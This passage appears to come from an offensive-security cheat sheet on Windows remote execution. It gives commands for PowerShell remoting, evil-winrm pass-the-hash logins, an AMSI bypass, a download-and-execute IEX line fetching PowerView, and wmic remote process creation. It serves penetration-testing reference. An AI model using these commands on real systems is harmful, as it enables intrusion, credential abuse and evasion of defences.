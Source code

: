     # one-to-one execute scripts and commands
    PS> $Session = New-PSSession -ComputerName CLIENT1
    PS> Invoke-Command -Session $Session -scriptBlock { $test = 1 }
    PS> Invoke-Command -Session $Session -scriptBlock { $test }
    1
    ```


### Powershell Secure String

```ps1
$aesKey = (49, 222, 253, 86, 26, 137, 92, 43, 29, 200, 17, 203, 88, 97, 39, 38, 60, 119, 46, 44, 219, 179, 13, 194, 191, 199, 78, 10, 4, 40, 87, 159)
$secureObject = ConvertTo-SecureString -String "76492d11167[SNIP]MwA4AGEAYwA1AGMAZgA=" -Key $aesKey
$decrypted = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secureObject)
$decrypted = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($decrypted)
$decrypted
```


## WinRM Protocol

**Requirements**:
* Port **5985** or **5986** open.
* Default endpoint is **/wsman**

If WinRM is disabled on the system you can enable it using: `winrm quickconfig`

The easiest way to interact over WinRM on Linux is with [Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
```powershell
evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM]
evil-winrm -i 10.0.0.20 -u username -H HASH
evil-winrm -i 10.0.0.20 -u username -p password -r domain.local

*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > IEX([Net.Webclient]::new().DownloadString("http://127.0.0.1/PowerView.ps1"))
```


## WMI Protocol

```powershell
PS C:\> wmic /node:target.domain /user:domain\user /password:password process call create "C:\Windows\System32\calc.exe”
```


## SSH Protocol

:warning: You cannot pass the hash to SSH, but you can connect with a Kerberos ticket (Which you can get by passing the hash!)
